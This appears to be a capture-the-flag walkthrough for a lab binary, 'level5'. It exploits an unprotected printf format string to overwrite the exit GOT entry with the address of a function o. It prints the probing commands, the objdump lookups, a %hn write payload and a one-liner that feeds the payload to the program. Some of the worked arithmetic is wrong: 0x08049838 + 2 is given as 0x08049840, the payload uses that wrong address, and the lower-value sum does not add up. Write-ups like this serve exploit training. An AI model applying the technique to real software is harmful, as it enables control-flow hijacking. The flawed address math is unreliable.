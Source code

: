 In the code we can observe an unprotected call to `printf` that could enable us to replace the address of `exit` with the address of `o`.

## Investigation

1) We need to know at wich argument our buffer is stored in `printf`.
     ```shell
     $ ./level5 < <(echo 'aaaa %x %x %x %x %x')
     aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520
     ```
     Our buffer is th 4th argument.

2) Then we will need to know the address of `exit`, where we will write the address of `o`.
    ```shell
    $ objdump -R ./level5 | grep exit
    08049838 R_386_JUMP_SLOT   exit
    ```
    The address of `exit` is `0x08049838`.

3) Finally we will need the address of `o` to replace the address of `exit`.
    ```shell
    $ objdump -t ./level5 | grep o
    080484a4 g     F .text	0000001e              o
    ```
    The function `o` is located at `0x080484a4`

## Exploit

We will use the same method used in [level4](../level4/walkthrough.md).

We will first write `0x0804`, then `0x84a4`.
* For the upper value: `0x0804 = 0d2052 - 8 = 2044` that will be written at `0x08049838 + 2 = 0x08049840`.
* The lower value: `0x84a4 = 0d33956 - 2052 - 8 = 31904` that will be written at `0x08049838`.

The payload completed payload will be
```
\x40\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
```

```shell
(cat <(python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"') -) | ./level5
```
